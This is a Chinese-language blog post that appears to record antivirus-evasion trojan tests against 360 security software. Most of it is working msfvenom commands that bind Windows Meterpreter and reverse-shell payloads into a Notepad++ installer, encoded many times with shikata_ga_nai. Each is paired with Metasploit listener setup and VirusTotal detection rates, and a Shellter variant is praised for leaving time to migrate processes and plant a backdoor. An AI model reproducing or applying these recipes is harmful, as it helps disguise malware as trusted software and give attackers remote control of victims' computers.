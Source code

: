 ```yaml
---
title: 免杀木马测试
date: 2022-4-18 20:48:36
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [CyberSecurity,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443502/Typera/2023/04/38939d28722be4a8ad01b5cca9bd13a1.png
---
```


:::default
**测试杀软：360 全家桶**
:::

## MSF

`msfconsole`

- **mp_npp:**（2022/4/16）
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	-  **免杀效果：**
		- 不能完全通过 **静态扫描**，快速扫描没事，指定文件夹扫描木马会报毒，且运行时会**第一时间**检测出木马
		- **virustotal** 的检测情况（**40 /  70**）：[检测报告](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
- **mp_rc4_npp_i15：**（2022/4/18）
	- `msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 15 -f exe > mp_rc4_npp_i15.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**38 /  70**）：[检测报告](https://www.virustotal.com/gui/file/84391493d82a5878f2a2eaa9465e95b4eae09bc8486d514cc19a741b1918721b)

- **sh_npp_i27：**（2022/4/18）
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 27 -f exe > sh_npp_i27.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/shell_reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**35 /  69**）：[检测报告](https://www.virustotal.com/gui/file/0a95d390c8165cfce1dd4ce40764e27dbfd89bd396c6a2a58ae662e623aa6233?nocache=1)

## shellter 捆绑免杀
- **shellter_npp：**（2022/4/16）
	- payload 选择 **shellter 自带**的：Meterpreter_Reverse_TCP （选项 1）
	- **免杀效果：**
		- 能过 **360静态检测**，**动态检测** 报毒会有 **大约一分钟** 的延迟（时间上足够**迁移进程**+**布置后门**）
		- **virustotal** 的检测情况（**31 /  70**）[检测报告](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
